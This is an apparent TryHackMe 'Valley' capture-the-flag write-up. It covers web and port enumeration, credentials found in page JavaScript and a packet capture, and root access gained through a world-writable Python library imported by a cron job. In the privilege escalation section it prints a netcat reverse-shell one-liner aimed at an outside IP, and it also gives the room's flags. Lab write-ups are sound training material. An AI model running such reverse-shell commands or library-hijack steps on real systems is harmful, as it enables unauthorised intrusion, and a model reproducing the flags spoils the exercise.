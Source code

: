 'export IP=10.10.81.156'
# Valley
`url = https://tryhackme.com/room/valleype`
`date = 05/30/2023`

## Enumeration

1. **Network Enumeration**

* We see the usual culprits port `80` & port `22`. Which means that we will have to brute force directories & find out what can be done after that. Maybe we get an ssh key. #WaitingToSeeHowThisMachineSurprisesMe

2. **Directory Bruteforcing**
```bash
/gallery
/static
/pricing
/index.html
```
* An interesting thing with this machine is that these directories have subdirectories within them which gobuster or dirsearch did not index. Here is a modified version of the file system:
```bash
/gallery/gallery.html
/static/1-18
/pricing/pricing.html
/pricing/note.txt
/index.html
```
* The note gives us two users - `j` & `RP`. Thouroughly enumerating the website does not give us any full names. The last resort is to move on & run hydra with the user as `j` and see what happens.

* Even sqlmap does not show any injectible points on the website.

* Even SSH-ing into the system does not give us any results, probably because these names are just initials.

3. **Web Enumeration**

* Since the directories are indexed, we are not going to bruteforce these sub directories:
    - `http://$IP/gallery/*`
    - `http://$IP/static/*`
    - `http://$IP/pricing/*`

* We get `200 - OK` on `/static/00` which can not be seen anywhere else. On this page we see a few notes, including one that says `remove /dev1243224123123`. Let us now visit this page.

* We can see a login page here, that will seems to be a back-door.

* On checking the backend validation form, we can see that the `username` & `password` is being manually checked for. Which means that we don't need to perform scripting attacks on this website.

```javascript
loginButton.addEventListener("click", (e) => {
    e.preventDefault();
    const username = loginForm.username.value;
    const password = loginForm.password.value;

    if (username === "siemDev" && password === "california") {
        window.location.href = "/dev1243224123123/devNotes37370.txt";
    } else {
        loginErrorMsg.style.opacity = 1;
    }
})
```
* Now we know `username = siemDev && password = california`.

* On logging in we can see a note:
```
dev notes for ftp server:
-stop reusing credentials
-check for any vulnerabilies
-stay up to date on patching
-change ftp port to normal port
```
* We now know that the ftp service is not present on port `21` and the username & password is same as before.

* Further network enumeration is required, which can be done with an nmap "all ports" scan:
```bash
nmap -sC -sV -p- -oN nmap/all_ports $IP
```

* Using rustscan gives the result faster:
```bash
PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack
80/tcp    open  http    syn-ack
37370/tcp open  unknown syn-ack
```

* The ftp service has been configured to run on port `37370`.

* Enumerating the FTP server, we saw a few packet caputures, that can be downladed using the `get` command.

4. **Wireshark PCAPS**

* There are three packet captures - `siemFTP.pcapng`, `siemHTTP1.pcapng` & `siemHTTP2.pcapng`. The first one has a decrypted TCP stream that shows us a user logging in with `anonymous` as the username & `anonymous` as the password. They then use some weird looking commands - like `SYST`, `NLST`, etc. that the FTP server returns responses to. But nothing so far is clear.

* After looking at a lot of things, what needs to be done is that we have to open the file `siemHTTP2.pcapng` file & set the wireshark filter as `http.request.method == POST` upon which we need to follow a particular TCP stream, which is of the HTTP packet that has a `POST` tag on it. On opening the TCP stream for this packet, we see the following - `uname=valleyDev&psw=ph0t0s1234&remember=on`.

* Which gives us the password for SSH (maybe). Let us try and SSH into this system now.

## Exploitation

```bash
ssh valleyDev@$IP
# password - ph0t0s1234
```
* Once we are into the system, I switched to pwncat rather than ssh, using a reverse shell.

* Here we can find the `user.txt` file which can then be catted out - `THM{k@l1_1n_th3_v@lley}`.

* In order to escalate privs, we need to run through the usual stuff. Out of everything, crontab caught my eye where a script is running every minute -
```bash
1  *    * * *   root    python3 /photos/script/photosEncrypt.py
```
* Other than this, there is a lot in the `/home` directory. We can see the user `valley` & an executable - `valleyAuthenticator`. Now we download this executable & run strings on it
```bash
strings valleyAuthenticator | less
# search for the string 'pass'
```
Where we can find the hash `e6722920bab2326f8217e4bf6b1b58ac` which can be cracked to get `liberty123`. Let us now ssh into the system as `valley`.

## PrivEsc

It took a lot of research, but here is what is to be done:
1. ssh as `valley` with `liberty123` as the password.
2. Check the crontab - `/photos/script/photosEncrypt.py`:
```python
#!/usr/bin/python3
import base64
for i in range(1,7):
# specify the path to the image file you want to encode
	image_path = "/photos/p" + str(i) + ".jpg"

# open the image file and read its contents
	with open(image_path, "rb") as image_file:
          image_data = image_file.read()

# encode the image data in Base64 format
	encoded_image_data = base64.b64encode(image_data)

# specify the path to the output file
	output_path = "/photos/photoVault/p" + str(i) + ".enc"

# write the Base64-encoded image data to the output file
	with open(output_path, "wb") as output_file:
    	  output_file.write(encoded_image_data)
```
It is importing the `base64` library that is world writable.

3. Finding writeable files can be done by:
```bash
find / -writeable 2>/dev/null
# Output - /usr/lib/python3.7/base64.py
```
Similarly, for finding Set UID binaries:
```bash
find /bin -perm 02000 2>/dev/null
```

4. Now, all that needs to be done is to put a reverse shell in the `base64.py` file & wait for the crontab to be run.
```bash
msfvenom -p cmd/unix/reverse_netcat LHOST=$LOCAL_IP LPORT=$LOCAL_P R
# output - mkfifo /tmp/oqxhw; nc 10.6.36.128 5555 0</tmp/oqxhw | /bin/sh >/tmp/oqxhw 2>&1; rm /tmp/oqxhw
```
This can be added to the python file & the crontab will then run.

5. We get a root shell where the file `root.txt` lives in the home directory which can then be catted out `THM{v@lley_0f_th3_sh@d0w_0f_pr1v3sc}`.

fin. 
